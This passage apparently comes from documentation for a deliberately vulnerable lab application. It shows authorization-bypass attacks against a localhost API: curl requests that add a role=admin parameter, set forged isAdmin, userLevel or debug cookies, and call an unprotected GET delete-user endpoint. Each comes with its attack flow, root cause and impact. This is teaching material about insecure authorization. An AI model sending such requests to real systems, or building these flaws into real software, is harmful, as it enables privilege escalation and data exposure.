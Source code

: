 ```bash
# Attack: Simply add role=admin to URL
curl "http://localhost:5000/api/authbypass/admin/dashboard?userId=123&role=admin"
```

**Attack Flow:**
1. Attacker adds `role=admin` parameter to URL
2. Server checks: `role.ToLower() != "admin"` evaluates to `false`
3. Authorization check passes
4. Sensitive admin data is returned

**Root Cause:** Authorization decision based on user-controlled input

### 3. Cookie Manipulation

```bash
# Attack: Set admin cookie
curl -H "Cookie: isAdmin=true" \
  "http://localhost:5000/api/authbypass/admin/settings"

# Alternative: Use userLevel cookie
curl -H "Cookie: userLevel=5" \
  "http://localhost:5000/api/authbypass/admin/settings"

# Another alternative: Use debug cookie
curl -H "Cookie: debug=enabled" \
  "http://localhost:5000/api/authbypass/admin/settings"
```

**Attack Flow:**
1. Attacker sets any of the three cookies to bypass values
2. Server checks OR condition: any single cookie bypasses authorization
3. Admin settings are returned with sensitive configuration

**Root Cause:** Client-controlled authorization tokens without server validation

### 4. HTTP Method Confusion

```bash
# Dangerous operation via GET (should be POST/DELETE)
curl "http://localhost:5000/api/authbypass/admin/delete-user/victim123"
```

**Attack Flow:**
1. Destructive operation exposed via GET request
2. No authorization checks at all
3. Action is performed regardless of user permissions

**Root Cause:** No authorization implementation whatsoever

## Impact Analysis

### Immediate Consequences
- **Privilege Escalation**: Regular users gain admin access
- **Data Exposure**: Sensitive admin data leaked to unauthorized users
- **System Compromise**: Admin operations performed without authorization
- **Secret Leakage**: API keys, passwords, and tokens exposed
